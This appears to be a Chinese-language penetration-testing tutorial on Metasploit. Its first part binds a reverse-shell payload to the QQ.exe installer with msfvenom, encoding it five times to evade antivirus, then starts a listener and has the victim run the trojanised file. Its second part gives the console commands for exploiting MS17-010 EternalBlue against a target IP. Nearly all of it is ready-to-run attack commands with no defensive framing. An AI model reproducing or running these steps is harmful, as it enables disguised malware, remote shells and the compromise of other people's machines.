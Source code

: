 ### msf绑定软件做木马

msf也可以绑定正常软件运行，在用户看来软件正常运行，但是这个软件后台同时偷偷启动木马程序，就拿一个qq软件做例子

![木马模版](https://tva1.sinaimg.cn/large/e6c9d24ely1h0cttfxjplj20ma0gpgoa.jpg)

将QQ.exe用作绑定木马

查看编码类型

```
msfvenom -l encoders
```

如图，有很多类型编码，我们选择x86/shikata_ga_nai 编码

![查看编码类型](https://img-blog.csdnimg.cn/20191022094918496.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hhcWlhbmc1NTU=,size_16,color_FFFFFF,t_70)

#### 捆绑木马

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.110 LPORT=8080 -e x86/shikata_ga_nai -x /root/lenkee/share/QQ.exe -i 5 -f exe -o /root/lenkee/share/QQ1.exe
```

其中-i 5是进行5次编码，其目的是为了面杀作用，但是这样作用已经没用了，照样被杀。生成了QQ2.exe文件

#### 木马上线

##### 启动监听

![启动监听](https://img-blog.csdnimg.cn/20191022094937676.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hhcWlhbmc1NTU=,size_16,color_FFFFFF,t_70)

exploit回车开始监听
将QQ2.exe文件拷贝回被攻击的机器，点击启动

![启动绑定木马软件](https://img-blog.csdnimg.cn/20191022095000189.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2hhcWlhbmc1NTU=,size_16,color_FFFFFF,t_70)

kali监听显示上线，但是在windows上的qq软件点击后却没有启动，不知道什么情况，有空研究一下
查看windows端口，发现8080后门端口被打开

![端口查看](https://img-blog.csdnimg.cn/20191022095026960.png)

## 2、ms17_010

```
 #进入msf
msfconsole

#数据库搜索ms17-010
search ms17-010

#进入漏洞
use windows/smb/ms17_010_eternalblue

#设置被攻击者的ip
set rhosts 192.168.5.59

#运行
run

#解决乱码
chcp 65001
```

